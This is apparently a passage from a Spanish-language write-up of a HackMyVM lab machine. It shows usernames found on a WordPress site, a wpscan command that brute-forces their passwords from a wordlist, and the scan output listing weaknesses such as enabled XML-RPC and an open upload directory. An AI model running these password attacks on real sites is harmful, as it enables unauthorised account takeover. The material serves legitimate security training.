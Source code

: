 Veremos varios usuarios, ahora vamos a ver si sacamos la contraseña alguno:

> users.txt

```
admin
gege
diego
xavi
```

```shell
wpscan --url http://www.smol.hmv/ --usernames users.txt --passwords <WORDLIST>
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://www.smol.hmv/ [192.168.1.169]
[+] Started: Fri Apr  4 05:56:43 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://www.smol.hmv/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://www.smol.hmv/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://www.smol.hmv/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://www.smol.hmv/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

```